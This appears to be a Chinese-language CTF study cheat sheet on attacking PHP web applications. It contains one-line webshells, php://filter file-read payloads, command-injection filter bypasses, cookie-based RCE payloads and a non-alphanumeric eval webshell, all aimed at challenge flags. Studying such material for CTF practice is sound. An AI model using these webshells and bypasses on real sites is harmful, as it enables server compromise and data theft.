

---
这是什么
---


##一句话木马

```nginx
# script标签要求php版本在7.0以下
<script language='php'>eval($_POST['cmd']);</script>
<script language='php'>system('cat /flag');</script>
<?php @eval($_POST['shell']);?>

# 短标签写法
<?=@eval($_POST['shell']);?>
<?=$_GET['cmd']; ?>

# 这个<?= ?>相当于<?echo ?>
短标签<? ?>需要php.ini开启short_open_tag = On，但<?= ?>不受该条控制

filename="<?=$_GET['cmd']; eval($_POST['cmd']); ?>"

# 取反木马构造：
urlencode(~'assert');
urlencode(~'(eval($_POST[mochu]))')
```

## http协议

**请求头**

```nginx
GET 			/ HTTP/1.1
Host: 			 指定请求的服务器的域名和端口号
Upgrade-Insecure-Requests: 1
Accept: 		 指定客户端能够接收的内容类型
Accept-Encoding: 指定浏览器可以支持的web服务器返回内容压缩编码类型
Accept-Language: 浏览器可接受的语言
Connection: 	 表示是否需要持久连接
From: 			 发出请求的用户的Email
Date: 			 请求发送的日期和时间
Authorization:   HTTP授权的授权证书
Content-Type: 	 请求的与实体对应的MIME信息
Cache-Control:   指定请求和响应遵循的缓存机制
Pragma:			 用来包含实现特定的指令
User-Agent: 	 的内容包含发出请求的用户信息
Proxy-Authorization: 连接到代理的授权证书
Upgrade: 		 向服务器指定某种传输协议以便服务器进行转换（如果支持）
Referer: 		 先前网页的地址，当前请求网页紧随其后,即来路
X-Forwarded-For: 用来表示 HTTP 请求端真实 IP
Client-ip: 127.0.0.1
Via: Clash.win			设置代理

```


## php特性利用

-   **php在解析字符串时会把点和空格解析成 `_`** 
-   **常见的可执行文件的后缀**
    -   **PHP: php2、php3、php5、phtml、pht**
    -   ASP: aspx、ascx、ashx、cer、asa
    -   JSP: jspx
-   **使用【``】符号PHP会尝试将反引号中的内容作为shell命令来执行**
    -   **使用【\t】绕过空格检查**
    -   **使用【%09】也可以代替空格**
-   **php解析特性：如果字符串中存在`[、、.`等符号，php会将其转换为`_`且只转换一次   **
    -   ==php版本要小于8==
    -   


- **字符串不相等，md5相等的数**

  - ```nginx
    c1=QNKCDZO
    c2=s1885207154a
    
    c1=QNKCDZO
    c2=s878926199a
    
    ```

    

### php7特性-变量执行函数

> 
>
> ```nginx
> # 利用php7特性，变量执行函数，使用方法如下
> <?php
> 
> $a='print_r';
> $b='test';
> ($a)($b);   # 这里a是一个字符串，内容是一个函数名//b也是字符串，内容是参数
> 
> # 对于无参数函数
> $a='phpinfo';
> $a();
> ```
>
> 

### 双美元符：`$$`

```nginx
双美元符号：`$$`
# 案例
$name = "value";
$value = 100;
$$name = 200; # 创建一个名为 $value 的变量，并将其值设置为 200,（间接引用另一个变量）
echo $value; # 输出 200

结论：
	使用一个变量的值作为另一个变量的名称，
利用点：间接修改或获取目标参数的值
```

### 内置属性：`$_SERVER`

**介绍及案例**

```nginx
$_SERVER：是PHP预定义的超全局变量，
是一个包含了头信息(header)、路径(path)、以及脚本位置(script locations)等信息的数组

$_SERVER[‘PHP_SELF’]、$_SERVER[‘SCRIPT_NAME’] 与 $_SERVER[‘REQUEST_URI’]的差别

# 案例网址：https://www.shawroot.cc/php/index.php/test/foo?username=root
$_SERVER['PHP_SELF'] 	得到：/php/index.php/test/foo
$_SERVER['SCRIPT_NAME'] 得到：/php/index.php
$_SERVER['REQUEST_URI'] 得到：/php/index.php/test/foo?username=root

# 获取用户的IP地址
$_SERVER["REMOTE_ADDR"] => "127.0.0.1"，
```

**特性：**

```nginx
$_SERVER['QUERY_STRING']	不会进行urldecode，$_GET[]会
```

### 内置属性：$_REQUEST

**介绍**

-  是一个全家便变量，可以访问GET、POST、COOKIE的数据

> - `$_REQUEST`在同时接收GET和POST参数时，POST优先级更高
>
> - ```nginx
>   /source.php?file=hint.php?/…/…/…/…/ffffllllaaaagggg
>   目录穿越，hint.php?整体做文件名
>   ```
>
>   可看题目：[[HCTF 2018]Warmup](https://www.nssctf.cn/problem/162)


### 伪协议

#### php://filter文件包含

> 这是一种访问本地文件的协议
>
> **常与include()相结合时，php://filter流会被当做PHP文件执行，**
>
> ==当filter协议中的base64被过滤后可以使用rot13绕过==

- **base64方式读取文件**

  - ==使用时需要考虑后端是否会自动拼接后缀.php或者其他==

  - ==执行后可得到index.php的base64加密的源码==

  - ```nginx
    php://filter/read=convert.base64-encode/resource=flflflflag.php
    php://filter/read=convert.base64-encode/resource=www.zip
    
    # 伪协议嵌套，这样提交的参数既包含有woofers这个字符串，
    # 也不会影响正常的包含，得到Flag.php：
    php://filter/read=convert.base64-encode/woofers/resource=index
    ```

- **rot13方式读取文件**

  - > 用**rot13**编码绕过。相比**base64**编码，**rot13**的绕过死亡之exit更加方便，
    >
    > 因为不用考虑前面添加的内容是否可以用**base64**解码，
    >
    > 也不需要计算可**base64**解码的字符数量。

  - **缺点：就是当服务器开启了短标签解析，一句话木马即使写入了，也不会被PHP解析。**

  - ```nginx
    payload=php://filter/NewStar/read=string.rot13/newstar/resource=flag.php
    ```

  - **进阶利用**

    - ```nginx
      <?php
      	$content = $_POST['content'];
      	file_put_contents($_GET['filename'], "<?php exit; ?>".$content);
      
      data://
      php:input
      
      ?>
      // 内容：允许写入文件，但是会在写入文件的字符串前添加exit命令
      // 分析代码，需要传入两个参数，POST：content，GET：filename
      // 对于filename可以通过php://filter协议来控制，最常用的方法是base64的方式将				content解码后传入、
      假设我们先随便传入一句话木马：
      ?filename=php://filter/convert.base64-decode/resource=1.php
      POSTDATA: content=PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
      
      然后打开文件会发现一堆乱码，原因是不仅我们的加密后的一句话木马进行了base64解码，而且前面的死亡之exit也进行了解码。
      base64编码中只包含64个可打印字符，而当PHP在解码base64时，遇到不在其中的字符时，会选择跳过这些字符，将有效的字符重新组成字符串进行解码。
      
      因此，对于死亡之exit中的代码，字符<、?、;、>、空格等字符不符合base64解码范围。最终解码符合要求的只有phpexit这7个字符，而base64在解码的时候，是4个字节一组，因此还少一个，所以我们将这一个手动添加上去。
      ```

    - ==因此，对于死亡之exit中的代码，字符<、?、;、>、空格等字符不符合base64解码范围==

- **iconv字符编码读取文件**

  - ```nginx
    ?file=php://filter/NewStar/read=convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
    ?file=php://filter/NewStar/read=convert.iconv.UCS-4LE.UCS-4BE/resource=flag.php
    
    php://filter/NewStar/read=convert.iconv.ASCII.UCS-2BE/resource=flag.php
    
    php://filter/NewStar/convert.iconv.utf-8.utf-7/resource=flag.php
    
    php://filter//NewStar/read=convert.quoted-printable-encode/resource=flag.php
    ```

##### 其他类型利用

```nginx
 if ( substr($_GET["file"], 0, 3) === "php" ) {
        echo "Nice!!!";
        include($_GET["file"]);
    } 

# 目录穿越绕过方法为，如下
?file=php/../flag.php
?file=php/../../../../../flag

# 为协议绕过
php://filter/read=convert.base64-encode/resource=flag.php
```


### php://input

> php://input，**需要allow_url_include=On**
>
> **==通常和`file_get_contents()函数` 一起玩==**

**利用案例**

```nginx
$text = $_GET["text"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){}

# get传入参数
text=php://input
# post传入
I have a dream
```


### phpinfo

> -  [session.upload_progress](https://www.php.net/manual/zh/session.upload-progress.php) 功能
> - https://blog.csdn.net/qq_46266259/article/details/128867195
>   - 注意这些参数情况：
>     - **Session Support：enabled**
>     - **session.auto_start：Off，开了就会初始化session**
>     - **session.name：PHPSESSID**
>     - **session.save_path：/tmp**
>     - **session.upload_progress.cleanup：On**
>     - 必须：**session.upload_progress.enabled：On**
>     - **session.upload_progress.name：PHP_SESSION_UPLOAD_PROGRESS**
>     - **session.upload_progress.prefix：upload_progress_**


****

## php函数及绕过


#### eval()

-   **—把字符串作为PHP代码执行**

```nginx
# 例： 
eval("#".$_GET['cmd']); => cmd = %0a system('cat /flag')
# 只需要利用%0a作为换行符即可绕过，这是因为"#"只是单行注释。

# 例
if (!preg_match('/sys|pas|read|file|ls|cat|tac|head|tail|more|less|php|base|echo|cp|\$|\*|\+|\^|scan|\.|local|current|chr|crypt|show_source|high|readgzfile|dirname|time|next|all|hex2bin|im|shell/i',$code)){
  eval($code);
}
# 传参
  $code=var_dump(`nl%20/f????????????????`);
  $code=printf(`c\at+/fffffffffflagafag`);
  $code=eval(end(pos(get_defined_vars())));&bre=echo `ls /`;
  $code=printf(`l\s`);
  $code=printf(`l\s;c''at /fffffffffflagafag`)


# 另一种利用
eval($code);

# 传入参数,加【\】是为了不报错，并不会改变原式，看情况是否添加
$code = eval(\$_POST[1]);

# 然后post传入参数
1=system('ls');
```

##### 黑白名单过滤

```nginx
# 执行命令的地方
$content = $_GET['c'];
eval('echo '.$content.';');

# 构造payload
1、使用 base_convert()函数，作用是任何进制之间转换数字
# 构造 phpinfo
base_convert(55490343972,10,36)() = phpinfo

# 构造_GET
base_convert(37907361743,10,36)(dechex(1598506324)) = _GET

# 构造单引号
base_convert(37907361743,10,36)(27) = '

# 利用 _GET, 思路是先传入一个变量kkk，再用$$cos等价于与$_GET
# 然后就可以在末尾1为参数名称赋值
c=$cos=base_convert(37907361743,10,36)(dechex(1598506324));($$cos){1}&1=phpinfo()

# 然后使用php7特性变量执行函数，需要设置两个变量
c=$cos=base_convert(37907361743,10,36)(dechex(1598506324));($$cos){1}(($$cos){2})

# 然后给两个变量赋值执行
c=$cos=base_convert(37907361743,10,36)(dechex(1598506324));($$cos){1}(($$cos){2})&1=system&2=ls
c=$cos=base_convert(37907361743,10,36)(dechex(1598506324));($$cos){1}(($$cos){2})&1=system&2=ls /
c=$cos=base_convert(37907361743,10,36)(dechex(1598506324));($$cos){1}(($$cos){2})&1=system&2=cat /flag
```


#### shell_exec()

-   **通过shell环境执行命令,并且将完整的输出以字符串的方式返回**

```nginx
# 绕过空格
1. ${IFS}绕过空格
	# 原理：它是shell的特殊环境变量,是Linux下的内部区域分隔符
2. $IFS$9绕过也可以达到绕过空格的效果，要大写
3. %09是制表符通过Url编码后显示的样子，它也可以绕过空格
	
# 以下在linux中可执行，实战看情况
	{ }绕过，如：{cat,/f*}
	<绕过，cat</f*
```


#### file_get_contents()

-   **将整个文件读入一个字符串**

```nginx
# 绕过：
	if (file_get_contents($file) !== 'debu_debu_aqua')
	# 可以使用data伪协议绕过：data://text/plain,debu_debu_aqua

# 其他利用案例
    # 获取文件列表中的文件,文件名使用ASCII码拼接而成
    file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))
```

​    

#### sha1()

-   **计算字符串的 sha1 散列值**

```php
# 使用例子
if (sha1('apple') === 'd0be2dc421be4fcd0172e5afceea3970e2f3d940') {}
if (sha1($shana) === sha1($passwd) && $shana != $passwd ){}

# 绕过例子（post传入参数）：
$shana[]=1&$passwd[]=2
# 绕过原理：
sha1()函数无法处理数组，$shana和$passwd都是数组时，都是false	
```

****

#### md5

**md5强碰撞**

> **两个值 == 比较不相等，md5加密 ===  要相等**
>
> 提供两个值
>
> ```nginx
> a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
> &b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
> ```

```nginx
if (isset($_POST['array1']) && isset($_POST['array2'])){
	 $a1 = (string)$_POST['array1'];
   $a2 = (string)$_POST['array2'];
   if ($a1 == $a2){
       die("????");
   }
   if (md5($a1) === md5($a2)){
       echo $level3;
   }
   else{
       die("level 2 failed ...");
   }
}

# 另一个数组绕过案例
if($_POST['wqh']!==$_POST['dsy']&&md5($_POST['wqh'])===md5($_POST['dsy'])){
    echo $FLAG;
}

# 传入参数
wqh[]=123&dsy[]=456
```

**弱类型**

> **找到一个数字，没加密和加密后相等，搭配php特性，也就是加密前面都是0e开头**
>
> - **php若比较会截取字符串的数字，直到遇到字符才会停止**
>   - 比如`12x34`会被读取为12，而`ee123`就会被读取为0
>
> - 如：0e215962017
>
> **两个值 == 比较不相等，md5加密 ==  要相等**

```nginx
<?php
   $flag = 'ook!';
   $a = $_GET['a'];
   if ($a != 'QNKCDZO' && md5($a) == md5('QNKCDZO')) {
       echo $flag;
   }else{
   echo('你的答案不对0.0');
}

/** 
	上面这段代码中就是上述0e开头的所有字串都被认为是0，
	PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，
	它把每一个以”0E”开头的哈希值都解释为0
	所以我们先看看md5('QNKCDZO')的结果是0e830400451993494058024219903391，
	那么所有0e开头的md5串都可以满足上面的条件。
常用的有：
	 QNKCDZO
   0e830400451993494058024219903391
   240610708
   0e462097431906509019562988736854
   s878926199a
   0e545993274517709034328855841020
   s155964671a
   0e342768416822451524974117254469
   s214587387a
   0e848240448830537924465865611904
	 s1502113478a
   0e861580163291561247404381396064
   s1885207154a
   0e509367213418206700842008763514
*/

```


#### preg_match()

-   **执行匹配正则表达式,**

```nginx
# 绕过方法：
0、大小写绕过
1、它会努力去匹配第一行，可以利用多行的方法【%0A】截断，也可以使用【%00】截断
    但受限以下两种情况下可以使用【%00】截断
    magic_quotes_gpc=off
    php<5.3.4

2、可以利用空字符串绕过正则
3、也可以利用回溯绕过，超过preg_match的匹配上限 也就是1000000
	# 案例：[NISACTF 2022]middlerce
	$txw4ever = $_REQUEST['letter'];
	if (preg_match('/^.*([\w]|\^|\*|\(|\~|\`|\?|\/| |\||\&|!|\<|\>|\{|\x09|\x0a|\[).*$/m',$txw4ever)){
        die("再加把油喔");
  }
  else{
    $command = json_decode($txw4ever,true)['cmd'];
    checkdata($command);
    @eval($command);
  }
	
	# 需要拿python跑，因为要进行计算
	import requests

  url = "http://node4.anna.nssctf.cn:28831/"
  data='{"cmd":"?><?=`nl /f*`;?>","t":"' + "@"*1000000 + '"}'
  # 这里必须使用特殊字符,@$之类的都是可以的
  a = requests.post(url=url,data={'letter': data}).text
  print(a)


4、有可以使用数组进行绕过
5、可以使用伪协议绕过：php://filter

	# 案例
	if(isset($_POST['a'])&&!preg_match('/[0-9]/',$_POST['a'])&&intval($_POST['a'])){
# 案例：
	preg_match('/^dsf$/') 可以加上换行符%0a截断绕过(ds%0af)，因为这个正则是需要固定出现
```

#### preg_replace

> 搜索指定字符串并替换

```nginx
# 绕过方式
1、【%0a】绕过

# 案例
<?php
	# $aaa= %0apass_the_level_1#
  # 传入参数长度不能大于20
  if(isset($_GET['aaa']) && strlen($_GET['aaa']) < 20){

      # 匹配 $aaa 中以 "level" 为分隔符的字符串，并通过替换将其修改为 ${1}<!-- filtered -->${2}
      $aaa = preg_replace('/^(.*)level(.*)$/', '${1}<!-- filtered -->${2}', $_GET['aaa']);
      echo $aaa;
      echo '<br>';
      # 匹配pass_the_level_1
      if(preg_match('/pass_the_level_1#/', $aaa)){
          echo '成功';
          echo $aaa;
      }
  }
```

##### **preg_replace** **/e**

> [详细看](https://xz.aliyun.com/t/2557)

```nginx
# 案例代码
header("content-Type:text/plain")；
function complexStrtoLower($regex，$value）{
  
  # 对一个正则表达式模式或部分模式 两边添加圆括号 将导致相关 匹配存储到一个临时缓冲区 中
  # 主要就是构造preg_replace('.*')/ei','strtolower("\\1")', {${此处填函数名}});
  return preg_replace('/(' . $regex .')/ei', 'strtolower("\\1")', $value);
}

foreach（$_GET as $regex => $value）{
  echo complexStrtoLower($regex, $value) . "\n";
}


# 其中的命令执行相等于： eval('strtolower("\\1");') 的结果
# 当中的 \\1 实际上就是 \1 ，而 \1 在正则表达式中有自己的含义，它实际上指定的是第一个子匹配项

# 传参，即 GET 方式传入的参数名为 /?.* ，值为 {${phpinfo()}} 
 /?.*={${phpinfo()}} 
原先的语句： preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);
变成了语句： preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}});

# 这种写法不能使用http请求是写，因为 . 会被转义成 _ ,所有使用下面这种写法
\S*=${phpinfo()} 
?\S*=${eval($_POST[cmd])} # post写入参数：cmd=system("cat /flag");
```

> 下面再说说我们为什么要匹配到 **{${phpinfo()}}** 或者 **${phpinfo()}** ，才能执行 **phpinfo** 函数
>
> - 这实际上是 [PHP可变变量](http://php.net/manual/zh/language.variables.variable.php) 的原因。在PHP中双引号包裹的字符串中可以解析变量，而单引号则不行。
> - **因为${phpinfo()}** 中的 **phpinfo()** 会被当做变量先执行，执行后，即变成 **${1}** 
>   - `phpinfo()`成功执行返回`true`

```nginx
# 结果：布尔 true
var_dump(phpinfo()); 
# 结果：字符串 '1'
var_dump(strtolower(phpinfo()));
# 结果：字符串'11'
var_dump(preg_replace('/(.*)/ie','1','{${phpinfo()}}'));

# 结果：空字符串''
var_dump(preg_replace('/(.*)/ie','strtolower("\\1")','{${phpinfo()}}'));

# 结果：空字符串''
var_dump(preg_replace('/(.*)/ie','strtolower("{${phpinfo()}}")','{${phpinfo()}}'));
 
  这里的'strtolower("{${phpinfo()}}")'执行后相当于 strtolower("{${1}}") 
  又相当于 strtolower("{null}") 又相当于 '' 空字符串
```


#### basename()

-   **返回路径中的文件名部分**

```nginx
# 正常使用
<?php
    $path = "/testweb/home.php";
    //显示带有文件扩展名的文件名
    echo basename($path);
    //显示不带有文件扩展名的文件名
    echo basename($path,".php");
?> 

# 绕过原理：
	在使用默认语言环境设置时，basename() 会删除文件名开头的非 ASCII 字符

# 如测试代码：
<?php
    $file = $_GET['file'];
    echo basename($file);
    传入值分别为：
    http://localhost/?file=%ffindex.php/%ff  ==  # index.php
    http://localhost/?file=%ffindex.php		== #index.php
    http://localhost/?file=index.php%ff		== #index.php
    http://localhost/?file=index.php/%2b	== #+

# 结论
其中：ascii值为47、128-255的字符均可以绕过basename()、
其中47对应的符号为'/'，在实际场景中没有利用价值
同时中文字符也可以绕过basement()

```

****

#### create_function

-   **通过执行代码字符串创建动态函数**

```php
/**
    如果【_】被过滤可以使用：命名空间【\】绕过，只需要再函数名
	获取flag的方式使用：get_defined_vars()，获取到上下文所有的参数值
	代码注入时选择得注释符号可以是#，也可以是\\，但是#需要编码，即%23
	*/

# 正常使用案例：
<?php
    $new = create_function('$a,$b','return $a * $b;');
    echo $new(1,2);
?>
    // 等价以下
    <?php
        function lambda1('$a,$b'){
    		return $a * $b;	
		}
	?>

# 实际ctf案例：
    $a = $_GET['a'];
    $b = $_GET['b'];
	# 第一个字符不能是字母
    if(preg_match('/^[a-z0-9_]*$/isD',$a)){
        show_source(__FILE__);
    }
    else{
        $a('',$b);		// 从这里构成create_function
    }

#创建绕过方式案例：
    #  	var_dump()：打印变量的相关信息，可执行函数
    # 	scandir()：列出指定路径中的文件和目录
	a=\create_function&b=return 'mmkjhhsd';}var_dump(scandir('/'));/*
	
	发现根目录下有一个flag文件
	a=\create_function&b=return 'mmkjhhsd';}var_dump(file_get_contents('/flag'));/*

```

****

#### call_user_func

> 作用：回调函数
>
> 传入参数：可以传入数组作为参数，因为支持写法：**['Greeting', 'sayHello']**

```nginx
# 使用案例，当回调方法为静态方法
php
class Greeting {
    public static function sayHello($name) {
        echo "Hello, " . $name . "!";
    }
}

// 使用 call_user_func 调用静态方法
call_user_func('Greeting::sayHello', 'John');
call_user_func(['Greeting', 'sayHello'], 'John');

# 使用案例
class Greeting {
    public function sayHello($name) {
        echo "Hello, " . $name . "!";
    }
}

// 创建类的实例
$greeting = new Greeting();

// 使用 call_user_func 调用类中的方法
call_user_func([$greeting, 'sayHello'], 'John');
```


#### 随机数

-   **mt_srand()：给随机数发生器播种**
-   **mt_rand()：生成随机数**

```nginx
# 特性
mt_rand()产生随机数时，如果用srand(seed)播下种子之后，一旦种子相同，产生的随机数将是相同的

# 实际遇到解题方法：
	使用工具php_mt_seed
	获取获取mt_srand()的一个随机数
	然后使用php_mt_seed去跑出结果，./php_mt_seed 随机数
	第一个就是，然后在PHP环境中测试输出种子的下一个随机数
```

#### is_numeric()

-   **检测变量是否为数字或数字字符串**

```nginx
会判断如果是数字和数字字符串则返回 TRUE，否则返回 FALSE,

且php中弱类型比较时，会使('1234a' == 1234)为真，或者'12345%00'，

# 该函数还可能造成sql注入，例如
将'1 or 1'转换为16进制形式，再传参，就可以造成sql注入
```

#### addslashes()

-   **在特殊字符前添加\ **

```nginx
# 特性：
产生的【\】不会进入数据库，
可以使用urlencode进入绕过，# 条件：urldecode($username);
同理base64也可以进行牢固		# 条件 base64_decode($username);
宽字节注入也可以绕过，核心是一个字符串采用不同的编码方式
# 即'1过滤后变成\'1，进入库中却仍为'1，我们在取出数据后进行二次拼接，即可造成注入

```

#### strcmp()

```nginx
# 绕过
在参数名称上加个中括号
```


#### putenv()

-   **设置环境变量的值(只能用绝对路径来调用系统命令)**

```nginx
# 案例
putenv("DB_HOST=localhost");
putenv("DB_USER=root");
putenv("DB_PASSWORD=secret");

Linux命令的位置：
/bin,/usr/bin，默认都是全体用户使用，
/sbin,/usr/sbin,默认root用户使用
```

#### exif_imagetype()

-   **判断一个图像的类型，常用与文件上传**

```nginx
# 绕过方法：在文件头添加图片头就可以绕过
JPG ：FF D8 FF E0 00 10 4A 46 49 46
GIF(相当于文本的GIF89a)：47 49 46 38 39 61
PNG： 89 50 4E 47

# 白名单绕过(%00)
当网站上传XXX.php%00.jpg时，遇到%00字符就会截断后面的.jpg,
文件最终保存为XXX.php

# “\x00\x00\x8a\x39\x8a\x39”
```

####     include

> 练手：https://www.nssctf.cn/problem/2640

```nginx
php://filter/read=convert.base64-encode/resource=flag
```

#### intval

> 作用：**获取变量的整数值**
>
> 绕过方法：它遇到字符串就会停止转换
>
> 搭配：**常用于使用intval强制转换在进行加法运算，php会先将字符串转换为数字然后再相加**
>
> 绕过：**科学计数法绕过**
>
> - ```nginx
>   # 案例
>   if(intval($num) < 2020 && intval($num + 1) > 2021){
>     echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
>   }else{
>     die("金钱解决不了穷人的本质问题");
>   }
>         
>   # 当我们传入的是1e4的时候，
>   # 经过intval函数的作用后就会变成1
>   # 但是当加上1的时候就会变为10001。
>   ```
>
>   
>
> ```nginx
> # 案例
> echo intval(42);                      // 42
> echo intval(4.2);                     // 4
> echo intval('42');                    // 42
> echo intval('+42');                   // 42
> echo intval('-42');                   // -42
> echo intval(042);                     // 34
> echo intval('042');                   // 42
> echo intval(1e10);                    // 1410065408
> echo intval('1e10');                  // 1
> echo intval(0x1A);                    // 26
> echo intval(42000000);                // 42000000
> echo intval(420000000000000000000);   // 0
> echo intval('420000000000000000000'); // 2147483647
> echo intval(42, 8);                   // 42
> echo intval('42', 8);                 // 34
> echo intval(array());                 // 0
> echo intval(array('foo', 'bar'));     // 1
> ```
>
> 

## 常见漏洞


### 命令执行

#### **文件读取命令替代**

```nginx
# 读取文件命令
tail			# 显示文件的后几行，默认为显示最后 10 行
head			# 显示文件的前几行，默认为显示开头 10 行
cat				# 从上到下一行一行输出输出文件内容
tac				# 从下到上一行一行输出输出文件内容
more			# 逐页显示文件内容

# 以下不一定好使
od				# 以字节或其他格式显示文件内容，可以是二、八、十六进制，如：od -c filename.txt
hexdump		# 以十六进制和ASCII码形式显示文件内容，如：hexdump -C filename.txt
```

#### **一些过滤代替**

```nginx
过滤掉【空格】可使用：【+】 代替，如：cat+/flag
过滤掉【空格】可使用：【''】 代替，如：printf(`l\s;c''at /flag`)
【``】可以执行命令，						如：`cat+/flag`
字符串过滤可以使用添加【\】绕过， 如：cat -> c\at
```

```nginx
system()函数
# linux中
过滤掉【空格】可使用：【<】代替
过滤掉【空格】可使用：【$IFS$1】代替
过滤掉【空格】可使用：【<>】代替
过滤掉【空格】可使用：【${IFS}】代替
```


>   前提条件：**默认php.ini配置文件中是不禁止你调用执行外部命令的函数的，需要通过disable_functions修改**

>   php 4种**执行系统外部命令函数**：exec()、passthru()、system()、 shell_exec()

>   passthru与system的区别，passthru直**接将结果输出到浏览器，**
>
>   **不需要使用 echo 或 return 来查看结果，不返回任何值**，且其可以输出二进制，比如图像数据

>   system和exec的区别在于system在执行系统外部命令时，**直接将结果输出到浏览器**，
>
>   **不需要使用 echo 或 return 来查看结果**，如果执行命令成功则返回true，否则返回false。
>
>   第二个参数与exec第三个参数含义一样

####  **RCE 函数介绍**

```nginx
<?php system('cat /f*');?>

exec();				# 执行无回显，默认返回最后一行结果
system("whoami");	# 有回显，将执行结果输出到页面上
passthru("whoami");	# 有回显，将执行结果输出到页面上
shell_exec();		# 默认无回显，通过 echo 可将执行结果输出到页面
file_get_contents('waf.php');
```

#### cookie：rce（一）

```nginx
<?php
error_reporting(0);
include 'waf.php';
header("Content-Type:text/html;charset=utf-8");
echo "你是谁啊哥们？把钥匙给我！！！！<br/>";
$key=$_GET['key'];
$name=$_POST['name'];
$qaq=waf($_POST['qaq']);
if (isset($_GET['key'])){
  highlight_file(__FILE__);
}
if (isset($name))
{
    echo "你是".$name."大人????<br/>";
    $name1=preg_replace('/hahaha/e',$qaq,$name);
    echo "骗我的吧，你明明是    >>>>小小".$name1;
}
?>

# playload
# ${IFS}：是Linux的分隔符
# session_id(session_start())：调用session_start()函数开始一个会话，然后获取该会话的ID值并将其作为system()函数的输入参数
Cookie: PHPSESSID=cat${IFS}/f*
name=hahaha&qaq=system(session_id(session_start()))
```
#### cookie：rce（二）

> 原题目为：云演陕西杯：**[SSCTF2023/ezrce](https://www.yunyansec.com/#/experiment/expdetail/6)**

```php
<?php
error_reporting(0);
include 'waf.php';
header("Content-Type:text/html;charset=utf-8");
echo "你是谁啊哥们？把钥匙给我！！！！<br/>";
$key=$_GET['key'];
$name=$_POST['name'];
$qaq=waf($_POST['qaq']);
if (isset($_GET['key'])){
  highlight_file(__FILE__);
}
if (isset($name))
{
    echo "你是".$name."大人????<br/>";
    $name1=preg_replace('/hahaha/e',$qaq,$name);
    echo "骗我的吧，你明明是    >>>>小小".$name1;
}

?>
<?php
function waf($poc)
{
    if(preg_match("/[0-9]|get_defined_vars|getallheaders|next|prev|end|array_reverse|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $poc)){
        echo "hacker! you die!<br/>";
        return "666";
    }
    return $poc;
}
```

==传参案例==

```nginx
name=hahaha1&qaq=show_source(session_id(session_start()));
Cookie PHPSESSID=waf.php
# 也可直接读取flag
name=hahaha1&qaq=show_source(session_id(session_start()));
Cookie PHPSESSID=/flag
```

#### 无字符rce

**自增**

> **以下代码相等于：`eval(@_POST[_]);`**

```nginx
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
```

